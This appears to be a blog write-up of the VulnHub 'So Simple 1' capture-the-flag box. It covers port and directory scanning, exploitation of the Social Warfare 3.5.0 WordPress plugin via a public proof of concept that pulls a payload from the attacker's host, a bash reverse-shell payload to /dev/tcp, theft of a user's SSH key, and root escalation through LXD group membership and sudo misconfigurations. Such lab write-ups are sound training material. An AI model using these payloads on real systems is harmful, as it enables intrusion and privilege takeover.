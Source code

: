 ```yaml
---
title: VulnHub - So Simple 1
layout: post
date: 2020-08-12 15:00:00 +0800
---
```


![92fcd502bc744111ad87e3b395653453.png](/images/vh-sosimple1/f1c60c3706fc4468b55e65a1aa1be478.png)

### 0. Preface

If you are still using Social Warfare 3.5.0 on WordPress, please update that plugin. Also, don't leave users hanging around in the LXD group. Both of those are bad for health. 

In this box, we will be tackling: 

1. RCE through Social Warfare 3.5.0 
2. Two different methods of privilege escalation
	- Using LXD (unintended)
	- Using GTFOBins and some scripts and binaries

<!--excerpt-->

---

### 1. Preliminary NMAP Scan

```bash
sudo nmap -sC -sV -oN nmap.txt 192.168.32.8 -v
```

![09b4765532b001ce007b7e67e09c997c.png](/images/vh-sosimple1/9063499aec4e424b87fce9a2429adad7.png)

This box is running on Ubuntu, and it also has a HTTP server on Port 80. 

### 2. HTTP Enumeration

![d358e68d14bc84581274daa6c20043df.png](/images/vh-sosimple1/238f87cf7f454a9cb7fbac775c34e623.png)

Nothing but an image? Let's run gobuster on this. 

```
gobuster dir -u http://192.168.32.8 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt
```

![5f286b3bfd2193480a6ab30890debb99.png](/images/vh-sosimple1/bf16e8e30c5f427090da0036828aed33.png)

Let's visit `/wordpress`.

![fa31e5cce52aeab69b55a8aaac684119.png](/images/vh-sosimple1/5137f03d570041028810ee1778a5ecff.png)

We got our first potential username - `admin`. 

![3487ffdde6d1831db52cb539aa6e66de.png](/images/vh-sosimple1/5b8433a265e647c480c80cedf6ddeceb.png)

Looking at the page source, we find that this is running WordPress 5.4.2 which is a pretty recent version. Googling gives us nothing to exploit. 

### 3. Wordpress Plugin Exploit

Further looking at the page source, we see that this is running Social Warfare 3.5.0. 

![6daaa323e70ebd0c6368207d51c91aeb.png](/images/vh-sosimple1/5746edc52b904c61a8b8eff47174f4b2.png)

This version of the plugin [is exploitable](https://threatpost.com/exploits-social-warfare-wordpress/144051/), and we actually have [a POC](https://github.com/hash3liZer/CVE-2019-9978).

Let's test it out.

```bash
python cve-2019-9978.py --target "http://192.168.32.8/wordpress/" --payload-uri "http://192.168.32.4:8000/payload.txt"
```

![ef80e23619226cc332a9a39399aca250.png](/images/vh-sosimple1/3ef2158861924bc4ae5de5b7a8d816b7.png)

![287c778ad547f18632e5799f0e3cc54a.png](/images/vh-sosimple1/c0ff6b2ee5494c42944f8c9a585b2c3b.png)

Awesome. It works. This allows us to do Remote Code Execution. Looking at the `/etc/passwd` file from the server we see two potential usernames - `max` and `steven`. 

Next, let's try to enumerate the box as much as we can. 

```php 
<pre>system('whoami; hostname; id')</pre>
```

![da78ea4cd7208d270cb6fbc713286a59.png](/images/vh-sosimple1/ebacb99247e043b585810ccfeafe3d48.png)

We see that this web server is running as www-data. Nice. Let's get a reverse shell going.

```php
<pre>system("bash -c 'bash -i >& /dev/tcp/192.168.32.4/4545 0>&1'")</pre>
```

![fb573ca369fb0a4505cddb276b3896a1.png](/images/vh-sosimple1/5ea83e3cc8784fd7aa2960f201b4865f.png)

And we're in. 

### 4. Logging in as Max

Upon doing further enumeration, we find `max`'s id_rsa key inside the `/home/max/.ssh` directory. We can use this to SSH into the box as `max`. Let's download it.

![cc8150fe41099850562c5cbeee9fb26e.png](/images/vh-sosimple1/56b22036602e4260a8742ab98e0486bd.png)

### 5. Privilege Escalation Using LXD (Unintended)

**Have checked with the box creator, [@roelvb79](https://twitter.com/roelvb79), this is an unintended way to get to root, which skips us past user #2.**

After logging in, let's first grab the `user.txt` from `/home/max`.

![cee3fcefc000ea483351c46c666f016f.png](/images/vh-sosimple1/02af01dd44a140ed94ea8a88957d4d8d.png)

We notice in the `id` command for `max` that it is in the `lxd` group, which [is exploitable](https://github.com/initstring/lxd_root)

Let's first download one of the smallest Linux distributions around - [Alpine Linux](https://www.alpinelinux.org). 

Next, following [this guide](https://ubuntu.com/tutorials/create-custom-lxd-images#4-creating-a-metadata-file), we create a metadata.yaml file and compress it into a tarball using `tar -cvzf metadata.tar.gz metadata.yaml`. 

Now, upload both the Alpine image, metadata tar archive and the exploit to the remote server. As the LXD on this box has not been initialised, we can do so using `lxd init` and leave all settings default. 

Now we need to import both the metadata and the image and spin up the container.

```bash
lxc image import metadata.tar.gz alpine.tar.gz --alias alpine
lxc launch alpine
```

For this exploit to work, we need the container name.

```bash
lxc list
```

![446df0e243bf15fe775d2e79290c6681.png](/images/vh-sosimple1/3959cc002eb6490ba10bae8fe286cff7.png)

Now that we have gotten everything ready, we can run the exploit using the newly created container. 

```bash
./lxd_rootv1.sh enabling-weasel
```

![5dd4593a750d03d9702d9659139a68db.png](/images/vh-sosimple1/84259b51f3004ffba3a08e735e3d39c5.png)

After this, we can simply use `sudo -i` to elevate ourselves to root without requiring a password. 

We can grab flag.txt for final flag, as well as the `user2.txt` we missed from `/home/steven`. 

![1c94af5da529375bc91f778bc495251e.png](/images/vh-sosimple1/a359e9e6220f40fe9fb3cf3f2db09441.png)

### 5. Privilege Escalation (Intended)

**If you want to do this box properly, this is the intended way to do so.**

Looking at `sudo -l` for `max`, we see that it is able to run `/usr/sbin/service` as `steven` without the need for a password. 

![f472e095c24fecbd004c4bf569c8fb11.png](/images/vh-sosimple1/650642fc3b8043908cb7ef8618ea6754.png)

Let's see what we can find using GTFOBins. 

![3ee10911f42663e5cb4cc85fff0750fd.png](/images/vh-sosimple1/80987a7702b74090a9ce55d062f06be3.png)

Nice, we can spawn a shell with the `service` binary as `steven`. 

```bash
sudo -u steven service ../../bin/bash
```

![cd376d6f4e6459fa80f93207e847f95a.png](/images/vh-sosimple1/b49a5513a440475988c5da5b983345d8.png)

Let's first grab `user2.txt` from `/home/steven`. 

![0b65dee28885f44f1d43b4ee393c311c.png](/images/vh-sosimple1/f5ecea0caa3e4c9dbd7062b8284cae19.png)

Again, looking at `sudo -l` for `steven`, we see that it's able to run `/opt/tools/server-health.sh` as root without a password. But the script doesn't exist.

![88fd170be9dcf7e77ba1733444cb8665.png](/images/vh-sosimple1/22c8de25eb1d4cb7bf4cd3477981253a.png)

Let's create it ourselves.

![3870640c3afba93e7cac19c48a24720e.png](/images/vh-sosimple1/d8a4df1b926d4f398edba3aed0472c9b.png)

Now we can run the script to get a root shell. 

![9cc3e2c502359f33704fdc6ca6ac720c.png](/images/vh-sosimple1/cabf39605e784cd2a7423d71b57d3ebe.png)